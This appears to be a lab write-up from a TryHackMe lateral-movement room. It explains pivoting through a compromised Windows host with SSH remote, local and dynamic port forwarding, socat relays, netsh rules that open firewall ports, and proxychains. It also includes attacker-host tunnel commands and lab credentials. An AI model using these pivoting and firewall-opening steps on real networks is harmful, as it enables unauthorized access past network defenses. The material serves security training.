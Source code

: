 # Port Forwarding

Most of lateral movement techniques showed require specific ports to be available for an attacker. In real-world networks, these ports may be blocked preventing from reaching SMB, RDP, WinRM or RPC ports.

To get around, we can use port forwarding techniques which consists of using any compromised host as a jump box to pivot to other hosts. Some machines may have different network permissions that host different services depending on what the target is.

***

### <mark style="color:green;">SSH Tunneling</mark>

SSH used to be a protocol only associated with Linux systems, Windows now ships with the OpenSSH client by default.

<figure><img src="../../../.gitbook/assets/image (268).png" alt=""><figcaption></figcaption></figure>

Assume we have control over the PC-1 machine and we would like to use it as a pivot to access a port on another machine that we could not directly connect from the outside.&#x20;

We will start a tunnel from the PC-1 machine, acting as an SSH client, to the Attacker's PC, which will act as an **SSH server**. The reason to do so is that you'll often find an SSH client on Windows machines, but no SSH server will be available most of the time.

For this we can create a user specifically with `/bin/true` which means it won't get a normal shell. It just acts as a tunnel for our connection&#x20;

```bash
useradd tunneluser -m -d /home/tunneluser -s /bin/true
passwd tunneluser
```

***

### <mark style="color:green;">SSH Remote Port Forwarding</mark>

Imagine a firewall policy that blocks outside connections from accessing port 3389. If the attacker has compromised PC-1 and it has access to port 3389, we can pivot using **remote port forwarding** to make it accessible from PC-1 (SSH Client) to the Attacker's machine (SSH Server).

<figure><img src="../../../.gitbook/assets/image (269).png" alt=""><figcaption></figcaption></figure>

To forward port 3389 back to our attacker's machine:

```
C:\> ssh tunneluser@ATTACKER_IP -R 3389:TARGET_IP:3389 -N
```

One that is running we can go to the attacker's machine and RDP into forwarded port

```bash
xfreerdp /v:<TARGET_IP> /u:<User> /p:<Password>
```

***

### <mark style="color:green;">SSH Local Port Forwarding</mark>

**Local port forwarding** allows us to "pull" a port from an SSH server into the SSH client. In our scenario, this could be used to take any service available in our attacker's machine and make it available through a port on PC-1. That way, any host that can't connect directly to the attacker's PC but can connect to PC-1 will now be able to reach the attacker's services through the pivot host.

Using this type of port forwarding would allow us to run reverse shells from hosts that normally wouldn't be able to connect back to us or simply make any service we want available to machines that have no direct connection to us.

<figure><img src="../../../.gitbook/assets/image (270).png" alt=""><figcaption></figcaption></figure>

```
C:\> ssh tunneluser@<ATTACKER_IP> -L *:80:127.0.0.1:80 -N
```

Notice that we use the IP address 127.0.0.1 in the second socket, as from the attacker's PC perspective, that's the host that holds the port 80 to be forwarded.

Since we are opening a new port on PC-1, we might need to add a firewall rule to allow for incoming connections (with `dir=in`). Administrative privileges are needed for this:

```
netsh advfirewall firewall add rule name="Open Port 80" dir=in action=allow protocol=TCP localport=80
```

Once your tunnel is set up, any user pointing their browsers to PC-1 at `http://IP:80` and see the website published by the attacker's machine.

***

### <mark style="color:green;">Port Forwarding With Socat</mark>

If SSH is not available we can use socat to pivot. Though we need to transfer the executable file on the host to make it work, making it more detectable than SSH.

To access port 3389 on the server using PC-1 as a pivot point:

```
C:\>socat TCP4-LISTEN:3389,fork TCP4:TARGET_IP:3389
```

<figure><img src="../../../.gitbook/assets/image (271).png" alt=""><figcaption></figcaption></figure>

&#x20;As usual, since a port is being opened on the pivot host, we might need to create a firewall rule to allow any connections to that port:

```bash
netsh advfirewall firewall add rule name="Open Port 3389" dir=in action=allow protocol=TCP localport=3389
```

To expose port 80 from the attacker's machine similar to pulling a port:

```
C:\>socat TCP4-LISTEN:80,fork TCP4:ATTACKER_IP:80
```

<figure><img src="../../../.gitbook/assets/image (272).png" alt=""><figcaption></figcaption></figure>

|     SSH     | Remote Port Forwarding difference |             Socat             |
| :---------: | :-------------------------------: | :---------------------------: |
| Less likely |             Detection             |          More likely          |
|  Not needed |      Firewall Configurations      | Needed to open specific ports |

***

### <mark style="color:green;">Dynamic Port Forwarding and SOCKS</mark>

Allows us to pivot through a host and establish several connections to any IP addresses/ports we want by using a **SOCKS proxy**.

Since we don't want to rely on an SSH server existing on the Windows machines in our target network, we will normally use the SSH client to establish a reverse dynamic port forwarding with the following command:

```
C:\> ssh tunneluser@1.1.1.1 -R 9050 -N
```

In this case, the SSH server will start a SOCKS proxy on port `9050`, and forward any connection request through the SSH tunnel, where they are finally proxied by the SSH client.

We can also use any of the tools through the SOCKS proxy by using **proxychains.** Makes sure the configurations file `/etc/proxychains.conf` is pointing to any any connection to the same port used by SSH for the SOCKS proxy server

```
[ProxyList]
socks4  127.0.0.1 9050
```

To execute the command through proxychains:

```
proxychains curl http://pxeboot.za.tryhackme.com
```

***

***

<figure><img src="../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

## Task 5

Our objective will be to connect via RDP to THMIIS . Initial credentials are given (assume we captured with admin access).&#x20;

User: jasmine.stanley

Password: G0O6Zd5aM

***

SSH to the credentials

<figure><img src="../../../.gitbook/assets/image (274).png" alt=""><figcaption></figcaption></figure>

We need to connect through RDP but we will find that port 3389 has been filtered via firewall and not available directly. Using socat, we will forward the RDP port to make it available on THMJMP2 to connect from our attacker's machine.

```
C:\tools\socat>socat TCP4-LISTEN:<PORT>,fork TCP4:THMIIS.za.tryhackme.com:3389
```

Normally, you'd have to add a firewall rule to allow traffic through the listener port, but THMJMP2 has its firewall disabled to make it easier.

Once the listener is active, we log into a user's account through RDP from the attacking machine

```bash
xfreerdp /v:THMJMP2.za.tryhackme.com:<PORT> /u:t1_thomas.moore /p:MyPazzw3rd2020
```

<figure><img src="../../../.gitbook/assets/image (275).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (276).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (277).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (201).png" alt=""><figcaption></figcaption></figure>
